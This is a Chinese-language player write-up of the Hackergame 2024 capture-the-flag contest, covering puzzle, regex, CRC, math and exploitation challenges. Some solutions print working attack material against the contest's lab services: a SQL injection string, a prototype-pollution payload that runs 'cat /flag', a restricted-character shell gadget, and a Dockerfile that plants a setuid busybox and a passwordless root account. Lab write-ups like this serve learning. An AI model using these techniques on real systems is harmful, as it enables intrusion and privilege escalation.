



好耶，上排行榜折线图了！大成功！

<p align=right>
随机判定随机过，AI题目AI做。<br>
misc web math bin都不会，一看排名一千多。
</p>

计算机科学中只有一大难题：配环境。

<p align=right>
这绝对比去年难吧？绝对是吧？
</p>

因为节标题等于题目名太无聊了，所以我对节标题进行了一些加密通话处理，相信选手们可以很轻松地明白每一节对应哪道题。节按题目列表顺序排列，小节按做出顺序排列。

<p align=right>
诶不是，你们的write-up怎么都能这么快交上来的啊，我这次已经边做边写了，还是花了不少时间在赛后补充上。
</p>

<a href="https://pkupuzzle.art/endoftime/" title="我望向时间的尽头，那是时间的开始。">&lt;CONNECTION LOST&gt;</a>

<p align=right>
<s>博客从去年装修至今，这就是我的烂摊子工程。等装修好了应该会出现在<a href="https://satgo1546.github.io/">我的GitHub Pages</a>上。</s>装修好了！<a href="https://github.com/USTC-Hackergame/hackergame2024-writeups/blob/master/players/piscesciurus/README.md">本文也发表在GitHub。</a>
</p>

<h2 title="签到">让我们说𒀝𒅗𒁺𒌑</h2>

每个用户都值得拥有一款剪贴板辅助工具。

<h2 title="喜欢做签到的 CTFer 你们好呀">我要成为签到题高手.jpg</h2>

[战队主页](https://www.nebuu.la/)在首页§承办单位有链接。help一通挨个试过去可以发现`env`里有一个flag。不管sudo做什么都会跳转到奶龙，但是`members`里最后的“hidden”字样歪打正着地起到了提醒有隐藏文件的作用，`ls -A` && `cat .flag`。

<h2 title="猫咪问答（Hackergame 十周年纪念版）">解出谜题不需要是科大在校猫娘</h2>

1. 按一年一届推算，2015年是第二届，那时候很可能还不叫Hackergame。[LUG活动记录](https://lug.ustc.edu.cn/wiki/lug/events/hackergame/)里有一个名叫“[第二届安全竞赛（存档）](https://lug.ustc.edu.cn/wiki/sec/contest.html)”的链接，内容最后更新于2015年，其中“10月17日周六晚上19:30 **3A204** 网络攻防技巧讲座”就是了。

2. 在GitHub {ustclug,USTC-Hackergame}/\*-writeups可以查到历届题解，2019年是题目最少的。还是在LUG活动记录中可以找到[《中国科学技术大学第六届信息安全大赛圆满结束》](https://lug.ustc.edu.cn/news/2019/12/hackergame-2019/)，第二段第一句就是“经统计，在本次比赛中，总共有**2682**人注册”。

	但是，比赛平台存档<https://hack2019.lug.ustc.edu.cn/>访问不了，我们的存档確有問题！

3. Hackergame中需要搜图书馆的题，那必然是猫娘问答了。在2018[猫咪问答官方题解](https://github.com/ustclug/hackergame2018-writeups/blob/master/official/ustcquiz/README.md)中可以找到预设搜索词**程序员的自我修养**。

4. 在[USENIX Security '24 Technical Sessions](https://www.usenix.org/conference/usenixsecurity24/technical-sessions)页面上搜索email，得到[FakeBehalf](https://www.usenix.org/conference/usenixsecurity24/presentation/ma-jinrui)。在PDF中搜索combination，得到**336** combinations。

5. [<code><strong>6e90b6</strong>7</code> MAINTAINERS: Remove some entries due to various compliance requirements.](https://github.com/torvalds/linux/commit/6e90b675cf942e50c70e8394dfb5862975c3b3b2)

6. 找到一个[在线切分器](https://lunary.ai/llama3-tokenizer)，算出来1836个token。有误差啊这，直接爆吧。得到答案**1833**。

	```js
	for(let i=1800;i<2000;i++){
		const f=new FormData
		f.append('q1','')
		f.append('q2','')
		f.append('q3','')
		f.append('q4',336)
		f.append('q5','')
		f.append('q6',i)
		if((await(await fetch('/',{method:'POST',body:f})).text()).includes('为 15')){
			console.log(i)
			break
		}
		await new Promise(r=>setTimeout(r,400))
	}
	```

<h2 title="打不开的盒">开盒（物理）</h2>

随便找个STL文件查看器，比如[ViewSTL](https://www.viewstl.com/)。

<h2 title="每日论文太多了！">Yanami, et al., 2021. 温水你就是这点不行啊.</h2>

在PDF内搜索flag，发现在图4里有一句“flag here”，但没有其他可复制文本。看不见应该是被挡住了，所以用PDF编辑器把挡住的白色图片移走。

SJTU学生可使用学校购买的[福昕高级PDF编辑器](https://software.sjtu.edu.cn/List/Foxit/PDF)。



<h2 title="比大小王">接口也是口，算法也是算</h2>

模拟操作会遇到的显示结果的时间瓶颈，麻烦。看下请求格式是什么，然后直接构造请求吧。

在104行添加日志点。

```js
setTimeout(()=>submit(data.values.map(([a,b])=>a<b?'<':'>')),12000)
```

<h2 title="旅行照片 4.0">开盒（地理）</h2>

1\. 直接搜索科里科气科创驿站就能在地图上找到这里，最靠近的是USTC东校区西北门，但因为答案字数限制，只能填**东校区西门**。

2\. B站[@中科大LEO动漫协会](https://space.bilibili.com/7021308)的投稿中，5月25日起陆续有标有“中国科大2024ACG音乐会单品”的视频投稿，可知活动在此之前，翻阅动态可找到[桁架及展架已经布置完毕](https://www.bilibili.com/opus/930934582351495204)的消息，日期为**2024年5月19日**。

4\. 识图搜索可知这是三峡大坝喷泉，搜索可得截流石，再搜索可得**坛子岭**。

3\. 被路中央的红黄蓝线坑了好久，这种线并不特别。右下角的垃圾桶上有小字“六安园林”。因为第4题的坛子岭很确定，所以可枚举六安市的公园。很巧，首个枚举的**中央森林公园**就对了。

 

6\. 搜索四编组动车没搜到什么有用的信息，看颜色以为是CR400AF，但仔细看发现车头黑色块形状弧度不对。搜索“很标志性的……四编组动车”，找到了北京只有四节车厢、使用**CRH6F-A**型电力动车组的粉色动车“怀密号”。

**赛后补**：垃圾百度，用Google搜四编组动车就能一下子找到了。

5\. 照片中为检修动车组的动车运用所。该线路一端为北京北站，故拍摄地为北京北动车运用所。通过卫星地图与照片中的建筑物形状对比，可以确认这一点。地图查询得到附近的北京**积水潭医院**。


TCRF：本题有未使用的image05.jpg，是列车车厢内对着车厢一头显示屏拍摄的照片，其中车厢号部分被挖去，信息屏显示两行文字`<JOURNEY>  19:01`、`temperature: 24℃`。

**赛后补**：发现第一小题的图片文件名并非image01.jpg而是klkq.jpg，顺藤摸瓜发现还有几张未使用的图片。

<table>
<thead><th>image02.jpg<th>image03.jpg<th>image05.jpg
<tbody>
	<td>
	<td>
	<td>
</table>

<h2 title="不宽的宽字符">欸🤓👆，wchar_t</h2>

我觉得非常迷惑：“随便找了一个文件名测试过无误”是怎么做到的？显然小A选择了一个名为A的文件做测试……这段代码对任何长度超过1或非ASCII的文件名都有问题。

写入内容为`theflag\0`（其中`\0`是真的NUL，正确写入后文件大小为8字节）的文件，然后用UTF-16 LE重新打开，得到`桴晥慬g`，作为文件名。

唉，早期Unicode标准的受害者。65001大概永远也无法成为Windows的默认代码页了，反倒是一开始就不管拉倒的Linux吃满了UTF-8红利。

<h2 title="PowerfulShell">贝壳高手</h2>

点开题目前还以为真是PowerShell……

1~9都能用，唯独把0给禁了，大概正解是要用0的。瞎玩玩出来一个`$[]`会展开到0，查了下是`$(())`的上古语法，文档都没了。

家目录是`/players`，各种环境变量有`$$=7`，`$_=input`，`$-=hB`，这种奇怪的环境变量有什么用吗？

问了下Gemini，给我胡说八道了一通，却确实提醒了我：用环境变量和`~`活字印刷。

> **User**: Write a shell gadget that, when executed using the `eval` builtin, results in `bash` being executed. The only characters that you can use are: space, `$`, `+`, `-`, digits 123456789 (you cannot use 0), `:`, `=`, `[`, `]`, `_`, `{`, `|`, `}`, `~`, `` ` ``. Be creative.
>
> **Model**: … Since `~` evaluates to the home directory path, we can extract individual characters. By carefully selecting the start and length using the constructed numerical indices, we pick out characters like "/", "b", "a", "s", "h", etc., and piece them together. …

ba是凑不出了，目标是sh，s来自`~`，h来自`$-`。一开始还在想怎么展开`~`，发现赋值到变量就自动展开了。shell脚本语法坑的变态程度真是超乎想象。

```bash
__=~
${__:7:1}${-:$[]:1}
cat /flag
```

<h2 title="Node.js is Web Scale">Wat?</h2>

哇哦！JavaScript中，每个空对象上都有垃圾属性，这真是一个非常棒的特性，提交toString作为字典键常常有惊喜。这就是JS，别的语言有没有这么多非物质文化遗产啊。

本题服务允许赋值深层字段，这在实际编程中也是很容易出事的地方。设置键`constructor.prototype.a`，值`cat /flag`，然后访问`/execute?cmd=a`。

用`.`分割层级带来的后果是，如果键名本身就含有`.`，可能会跟他处的读写产生不一致的结果。MongoDB中[含`.`的键没有被彻底禁止而是必须用特殊方法读写](https://www.mongodb.com/docs/manual/core/dot-dollar-considerations/periods/)，搞不好就可能造成漏洞。

如果你在好奇本节标题是什么意思，可以搜索一个标题叫“[Wat](https://www.destroyallsoftware.com/talks/wat)”的视频（虽然与本题解法无关）。

<h2 title="PaoluGPT">爬虫高手</h2>

### 窥视未知

几百年没见到这么经典的SQL注入了，在conversation_id参数填入`'or not shown or'`即可看到一条隐藏的聊天记录，末尾有flag。这样就得到了第二小题的flag。……啊？

### 千里挑一

第一小题名为“千里挑一”。注意到包括隐藏的聊天记录在内，共有一千条，故“千里挑一”表示其中有一条藏有flag。所以写个爬虫把文本全部捞下来，然后在里面找异常内容。

```js
y=[]
for(const e of document.getElementsByTagName('li')){
  y.push(await(await fetch(e.lastChild.href)).text())
  await new Promise(r=>setTimeout(r,400))
}
```

<h2 title="强大的正则表达式">正则高手</h2>

### Easy

虽然听上去像判断素数的正则表达式`1?|(11+?)\1+`，但是本题其实更像[用正则表达式验证YYYY-MM-DD格式的日期](https://stackoverflow.com/a/8648129)，包含年月日范围和闰年判定，其中涉及4的倍数判定。16的倍数原理与之相同。

因为10000是16的倍数，所以只要末四位是16的倍数，整个数字就是16的倍数。

```python
'(0|1|2|3|4|5|6|7|8|9)*(%s)'%'|'.join('%04d'%i for i in range(0,10000,16))
```

在大范围内随机生成的整数可以说不可能有三位数，所以根本不用考虑短的特例。

### Medium

将除以13产生的13种余数作为状态，读入位<var>b</var>产生状态转移，使余数 × 2 + <var>b</var>。

有限自动机和（不含后向引用等扩展的）正则表达式等价（Kleene定理）。传闻有库greenery可以完成转换，但我安装后发现这个功能好像被砍了，只好自学[Kleene算法](https://en.wikipedia.org/wiki/Kleene%27s_algorithm)。

Kleene算法是动态规划，结构有点像Floyd算法。<var>f<sub>i→j,k</sub></var>表示只途径状态[0,&nbsp;<var>k</var>)从状态<var>i</var>转移到状态<var>j</var>的字符串集合（以正则表达式表示）。

```python
import re
def optimize(r: str) -> str:
    r = r.replace("()*", "")
    # 我要在这里放个xkcd链接，熟悉的同学可能已经知道是哪个了
    # https://xkcd.com/1313/
    while (r2 := re.sub(r"\(([^|)]+)\)(?!\*)", r"\1", r)) != r:
        r = r2
    r = re.sub(r"\(\|?([0-9])\|?\)\*", r"\1*", r)
    return r

from copy import deepcopy
r = [[set[str]() for _ in range(13)] for _ in range(13)]
for i in range(13):
    r[i][i].add("")
    r[i][i * 2 % 13].add("0")
    r[i][(i * 2 + 1) % 13].add("1")
for k in 0, 1, 12, 2, 11, 3, 10, 4, 9, 5, 8, 6, 7:
    r2 = deepcopy(r)
    for i in range(13):
        for j in range(13):
            if r[i][k] and r[k][j]:
                r2[i][j].add("(%s)(%s)*(%s)"
                    % tuple("|".join(sorted(x)) for x in (r[i][k], r[k][k], r[k][j])))
    r = r2
print(optimize("|".join(r[0][0])))
```

注意对k的循环指定了特别的顺序。这是因为虽然无论何种排列顺序都能生成正确的正则表达式，但是不同的顺序结果长度不同。如果是`for k in range(13)`，就会生成数万字符长的正则表达式，虽然仍在限制范围内，但是会导致判定卡死。这里采用的顺序是随便试出来的。

为了扩展，许多正则表达式库选择更慢的回溯匹配。利用自动机降低正则表达式匹配复杂度的例子有Go语言使用的[RE2](https://github.com/google/re2/wiki/WhyRE2)。但本题是Python，那叫一个慢，太长的表达式甚至能造成DoS。不优化一下的话，就慢到没法出结果了。

### Hard

阅读Wikipedia上的Cyclic redundancy check页面，计算方法一节举例用的就是这个CRC-3-GSM，可以看出CRC的算法与除法非常相似。将截至目前的校验和作为8种状态，读入字符产生状态转移。

为了尽可能缩短正则表达式，花了一刻钟跑了一遍整个8!排列空间，得到的结果非常地amazing啊，最长的是287992字符，最短的是158180字符。然而，即使是最短的，也要花费很长时间才能确认匹配失败，无法通过本题。

而且这时我才发现，不知道为什么libscrc算出来的和我手算出来的是反的，可能是有异或掩码。

状态之间构成完全图，也不知道怎么的就注意到了可以把动态规划初值中的空字符串删去而不影响正则表达式的正确性，这样一改匹配就快很多了。

```python
def crc3(r: int, b: int) -> int:
    b ^= r << 5
    b <<= 3
    p = 0b10110000000
    while p >= 0b1011:
        if b.bit_length() == p.bit_length():
            b ^= p
        p >>= 1
    return b
r0 = [[set[str]() for _ in range(8)] for _ in range(8)]
for i in range(8):
    # r0[i][i].add("")
    for j in b"0123456789":
        r0[i][crc3(i, j)].add(chr(j))
def makeregex(perm: tuple[int, ...]) -> str:
    r = r0
    for k in perm:
        r2 = deepcopy(r)
        for i in range(8):
            for j in range(8):
                if r[i][k] and r[k][j]:
                    r2[i][j].add("(%s)(%s)*(%s)" % tuple(
                        "|".join(sorted(x)) for x in (r[i][k], r[k][k], r[k][j])))
        r = r2
    return optimize("|".join(r[0][7]))
print(makeregex((4, 0, 2, 7, 3, 1, 6, 5)))
```

<h2 title="惜字如金 3.0">爆破高手</h2>

### 题目A

您要找的是不是：拼写检查

### 题目B和题目C

C题和B题代码几乎一样，区别是二次函数的常数也被惜字如金了，不知大小写，这一行的搜索空间是2<sup>32</sup>，要是本地能爆相信很多选手都想跟这题爆了。

实际上我最先注意到的是一个奇怪的事情：每行的散列会被保存到TXT文件名中，在校验时读取，是否有些多余？这固然是一种很新的哈希表，但这怎么看都有蹊跷。注意到6个字节经过Base85编码后会变成8个ASCII字符，而`answer_c`也符合这个格式。（Python的Base85和Ascii85不是同一种编码。）再注意到行散列匹配但内容不匹配时会输出不匹配的字符。也就是说，只要控制每行的散列值等于0xd0a7b1dbd371，就能从最后一位开始逐字符爆破出flag。

我估计这是C题的解法。这也印证了C题做出人数如此少的原因：标称math，解法却需要与服务器交互爆破。但是这种解法可行的前提是至少要知道CRC多项式，还要反向计算散列值。散列函数只是一个二次函数，或许有办法解开，但CRC多项式怎么逆向呢？

我找到了[Reverse-Engineering a CRC Algorithm](https://www.csse.canterbury.ac.nz/greg.ewing/essays/CRC-Reverse-Engineering.html)一文。虽然没怎么搞明白原理，但文中只要将一些特定构造的二进制表示中只有一个1的数据的CRC异或一下就能得到多项式。诶，我也试一下，发现不对，但是很近了，异或出来的不同值再异或一次就能得到原始多项式。注意到将digest初始化为0的话上述方法就对了，所以构造的源数据取反就对了。

编辑一个这样的文件，上传。

```
FE FF FF FF FF FF 0A
FD FF FF FF FF FF 0A
FB FF FF FF FF FF 0A
F7 FF FF FF FF FF 0A
EF FF FF FF FF FF 0A
DF FF FF FF FF FF 0A
BF FF FF FF FF FF 0A
7F FF FF FF FF FF 0A
```

服务端会返回每行的CRC值经过二次函数得到的值。估摸着模意义下的二次函数也可以求根，确实搜到了[将求根公式推广到模运算](https://math.stackexchange.com/a/4468139)的方法，但不知道怎么写成算法，随后发现SymPy里有现成函数quadratic_congruence。

但实际使用会发现，这个函数面对大系数时会卡死！但sqrt_mod面对大数不会卡死，还是得自己实现求根公式，我谔谔，反手打开Mathematica，直接Solve就能出结果。

```wolfram
ka = {16^^Cb4EcdfD0A9F, 16^^a9dec1C1b7A3, 16^^60c4B0aAB4Bf};
kb = {16^^dbeEaed4cF43, 16^^FDFECeBdeeD9, 16^^B7E85A4E5Dcd};
kc = {16^^DFFFFFFFFFFF, 16^^FFFFFFFFFFFF, 16^^FFFFFFFFFFFF};
le[str_] := FromDigits[StringJoin[Reverse[StringJoin
  /@ Partition[Characters[str], 2]]], 16]; (* 小端序十六进制字符串转整数 *)
BaseForm[Table[x /. Solve[kb . {x^2, x, 1} == le[y], x, Modulus -> 2^48],
  {y, {"8f7b6442dfb0", "679ad0e1f734", "d9219a401755", "3123377f43a0",
       "1df0b0aeb72c", "4984e5405fe8", "735309bf06ce", "016dd81dc2c0"}}], 16]
```

每个方程解出两个根，相邻两项选对的话异或可能产生0x800000000000也可能产生多项式，选错了会产生随机值，只要取足够多组就能排除干扰值找到那个唯一的多项式。

```python
from itertools import pairwise, product
v = [  # 由上文Mathematica程序解出
    [0x881d6e7f4e07, 0xf9dabda57046],
    [0x103adcfe9c0f, 0x71bd4f26223e],
    [0x99ee342d6b3c, 0xe809f7f75311],
    [0x33dc685ad679, 0x4e1bc3c9e7d4],
    [0xa3d4cebebe7d, 0xde235d65ffd0],
    [0xbc46bacbffa1, 0xc5b17158beac],
    [0x096ab68cbf0a, 0x788d7597ff43],
    [0x3976c52510a9, 0x488166ffada4],
]
ps = None
for a, b in pairwise(v):
    p = {x ^ y >> 1 for x, y in product(a, b)}
    if 0x800000000000 in p: continue
    if ps is None: ps = p
    else: ps &= p
print(ps)
print(bin(next(iter(ps)) | 0x800000000000)[:1:-1].replace("0", "b").replace("1", "B"))
```

这样就能解出多项式，那么B题到此就结束了。C题用同样的方法也能解出多项式。按照本小节开头的思路，C题需要凑CRC的值。这并不困难，因为CRC算法实际上是可逆的，给定字符串，控制字符串开头的几个字符就能控制CRC。

```python
poly, poly_degree = 'CcccCCcCcccCCCCcCCccCCccccCccCcCCCcCCCCCCCccCCCCC', 48
flip = sum(['c', 'C'].index(poly[i + 1]) << i for i in range(poly_degree))

def revcrc(input: bytes, digest: int) -> bytes:
    digest ^= (1 << poly_degree) - 1
    target = bin(int.from_bytes(input, "little"))[2:].zfill(len(input) * 8 + poly_degree)
    for c in map(int, target):
        do = c ^ digest >> poly_degree - 1 & 1
        digest ^= flip * do
        digest <<= 1
        digest |= do
    digest ^= (1 << poly_degree) - 1
    digest &= (1 << poly_degree) - 1
    return digest.to_bytes(6, "little")
```

然后编写脚本获取answer_c.txt的内容。首先枚举行长，通过服务端返回的Unmatched length消息确认行长。然后一次一个字符地获取内容。注意受控的字符不应出现换行符，否则会导致行错位，结果也将不明。文件的开头一定是`flag{`，这能确定Base85中的前6个字符。最后剩下的两个字符难以确定，可通过解码结果必须为ASCII可见字符，筛选句意通顺的flag得到。

```python
import random
import requests

b85alphabet = (b"0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ"
               b"abcdefghijklmnopqrstuvwxyz!#$%&()*+-;<=>?@^_`{|}~")
flag = b""
for l in range(64, 8, -1):
    data = b""
    for c in b85alphabet:
        line = b"\n"
        while b"\n" in line or b"\r" in line:
            line = random.randbytes(l - 8) + bytes((0, c)) + flag
            line = revcrc(line, 0x4402c8f3cfaa) + line
            # 0x4402c8f3cfaa是u₂x² + u₁x + u₀ = 0xd0a7b1dbd371的一个解
        data += line + b"\n"
    h = requests.post("http://202.38.93.141:19975/answer_c.py", data=data)
    h = h.json()["wrong_hints"]
    for c, msg in h.items():
        if msg == "Unmatched data (0x00)":
            flag = bytes((b85alphabet[int(c) - 1],)) + flag
            break
    else:
        raise RuntimeError("寄", l, data, h)
    print(flag)
print("---")
for b in b85alphabet:
    for c in b85alphabet:
        flag2 = base64.b85decode(b"W^7?+d" + bytes((b, c)) + flag)
        if flag2.startswith(b"flag{") and all(33 <= x <= 126 for x in flag2):
            print(flag2)
```

**赛后补**：哇居然有选手用显卡爆多项式还爆出来了。我也试过用Z3爆，但是没成功。但有选手用Z3出了，为啥我的Z3爆不出呢，就因为我不会解二次方程吗？

<h2 title="优雅的不等式">Attention Is All You Need</h2>

### Easy

不久前，我被B站推送到了关于注意力机制的视频[《【漫士科普】不是，这帮数学大佬都是怎么注意到的？》](https://www.bilibili.com/video/av1956357911)。视频是一个字都没看懂，但里面有个能积出π的式子，抄来用用。

注意到是SymPy帮忙验证区间上恒为正，并不要求被积式真的是正因式乘积的形式，所以只要找到一个足够精确的表达式，然后调整常数就能完成。连常数都懒得算了，直接交给SymPy吧。

```
-(x*x-x)**4/(x*x+1)+22/7-2
-(x*x-x)**4/(x*x+1)+22/7-8/3
```

### Hard

直接使用上述积分并提升幂次的话，会导致SymPy卡死。

```
(x*x-x)**64/2**30/(x*x+1)+2199496269931868203800149756151730543362676840844586435379483/700121407343685092214243286289756273641462048387187186073600-C
```

SymPy计算积分很快，但是不知道为什么加上一个常数项就会变慢。最重要的是，判定区间上函数值正变得很慢。这样的函数在面对十几位的输入时就卡死了，还是需要注意力。

注意到前述视频中提到的@泰勒猫爱丽丝的另一个视频[《知乎大佬是怎么“注意到”这么恐怖的积分的？》](https://www.bilibili.com/video/av621207884)详细介绍了系数导出方法，搜索integral approximation to pi也能找到一篇介绍了同样方法的文章[Integral approximations to π with nonnegative integrands](https://educ.jmu.edu/~lucassk/Papers/more%20on%20pi.pdf)。因为不需要最简，所以选取能覆盖最后一问精度的幂次，事先算出积分值表达式，编程实现待定系数法求解部分即可。通过注意力得到的积分计算和判定都很快。

```python
from pwn import *
from fractions import Fraction

conn = remote("202.38.93.141", 14514)
conn.sendafter(b"token:", b"114514:asdfgh==\n")
context.log_level = "debug"

m = [
    [-4398046511104, 4398046511104],
    [
        Fraction(
            230405289661242341905876147729168724781105527869565961770111357024234992063310792221807,
            16675649369111254460023254704624715250723149010446973690900864567369971000,
        ),
        Fraction(
            -194161760950485119583603495277389374815538366182218507109644401986701079185812018101,
            14052513513296000949457798908391613975328496357118236256377133062390425,
        ),
    ],
]  # ∫ = m @ [π, 1]
d = m[0][0] * m[1][1] - m[0][1] * m[1][0]

for _ in range(40):
    conn.recvuntil(b">=")
    a = Fraction(conn.recvuntil(b"\n").decode())
    b = (m[0][1] * a + m[1][1]) / d
    c = (-m[0][0] * a - m[1][0]) / d
    conn.sendafter(b": ", f"(x*(1-x))**88*({b}*x*x+{c})/(x*x+1)\n".encode())
conn.recvall()
```

<h2 title="无法获得的秘密">远程主机强迫关闭了一个现有的连接</h2>

装虚拟机，增强功能装不上；连远程服务器，文件传不过去。剪贴板还是坏的，见怪不怪了。

模拟键盘上传脚本，手动截图下载数据。这哪是CTF，这是早期草台班子驯服野生RDP实录。

```autohotkey
#^v:: {
	SendText A_Clipboard
}
```

```html
<!DOCTYPE html>
<input type=file id=fi>
<canvas id=hi width=1000 height=1000></canvas>
<canvas id=lo width=1000 height=1000></canvas>
<script>
fi.oninput=async()=>{
f=new Uint8Array(await fi.files[0].arrayBuffer())
im=new ImageData(hi.width,hi.height)
for(i=0;i<f.length;i++){
  im.data[i*4]=f[i-1]&0xf0|8
  im.data[i*4+1]=f[i]&0xf0|8
  im.data[i*4+2]=f[i+1]&0xf0|8
  im.data[i*4+3]=255
}
hi.getContext('2d').putImageData(im,0,0)
for(i=0;i<f.length;i++){
  im.data[i*4]=f[i-1]<<4&0xf0|8
  im.data[i*4+1]=f[i]<<4&0xf0|8
  im.data[i*4+2]=f[i+1]<<4&0xf0|8
  im.data[i*4+3]=255
}
lo.getContext('2d').putImageData(im,0,0)
}
</script>
```



虽然远程主机上有Python，但是没网，装不了库，用处有限，其实这种时候浏览器更好用。

VNC画质拉到最高，传输的画面依旧有损，但不像某些视频网站那么糊，用标称24位色深传个12位色深还是没有问题的，观察数据发现只读一个通道也是准的。视频输出分辨率有1024 × 768，这里截了两张图；如果放高4位和低4位放两个通道里，一张图就够了。

解码脚本是GPT写的，也是网页。因为不像编码需要挨个字敲进去，长就长点，不贴了。

**赛后补**：好多选手都录屏，我嫌解析麻烦，主要是要弄个能读视频的库。我也想到用二维码了，但一张二维码数据量太少，编码也得找库，把编码程序传到服务器上很不方便。我的方法既不需要hack noVNC WebSocket，又不需要等待翻页，编码脚本短到手敲也不是不行<s>，下次还填非常简单</s>。

<h2 title="Docker for Everyone Plus">无法上传的镜像</h2>

### No Enough Privilege

无需密码的可提权命令列表：

```
/usr/bin/docker run --rm -u 1000:1000 *
/usr/bin/docker image load
!/usr/bin/docker * -u0*
!/usr/bin/docker * -u?0*
!/usr/bin/docker * --user?0*
!/usr/bin/docker * -ur*
!/usr/bin/docker * -u?r*
!/usr/bin/docker * --user?r*
```

去年的Docker题指出，挂载卷对应的外部root用户和容器里面的root ID一致，所以能拿到容器里面的root就可以得到外部的仅root可读的文件。今年只能以普通用户的身份进入容器，要想办法在容器里提权到root。

因为容器镜像内容完全可控，所以在镜像里塞个root所有的setuid程序就能提权了。

因为只有终端，文件上传很慢，再加上连不上Docker Hub等各种因素，所以从零开始构造镜像吧！busybox是个很不错的选择，官方提供的2MB静态链接二进制里包含了各种实用命令行工具，将它设置为setuid就能以root身份做这样那样的事情。

```dockerfile
FROM scratch AS builder
COPY busybox /busybox
COPY busybox /bin/sh
RUN /busybox chmod 6777 /busybox; echo 'root::0:0::/root:/bin/sh' > /passwd

FROM scratch
COPY --from=builder /busybox /bin/busybox
COPY --from=builder /passwd /etc/passwd
RUN ["/bin/busybox", "ln", "-s", "/bin/busybox", "/bin/sh"]
CMD ["/bin/sh"]
```

构建出来的镜像压缩后只有684KB。看到群友接连吐槽ZMODEM，我果断选择最朴实无华的网页终端粘贴一万行Base64上传法，少走不知道多少弯路。不用gzip而用xz的话能压得更小，但服务器上没有xz，解压不了。

```sh
# 本地构建镜像
docker build -t a .
